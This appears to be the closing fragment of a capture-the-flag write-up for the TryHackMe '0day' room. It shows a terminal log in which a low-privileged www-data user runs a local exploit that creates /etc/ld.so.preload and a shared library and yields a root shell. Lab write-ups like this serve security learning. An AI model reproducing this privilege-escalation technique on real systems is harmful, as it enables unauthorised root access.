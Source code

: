 ```terminal
www-data@ubuntu:/tmp$ ./myexploit
./myexploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
#
```

***

![]({{ "/images/mandatory/pwned.png" | relative_url }})

> [0day - Tryhackme](https://tryhackme.com/room/0day)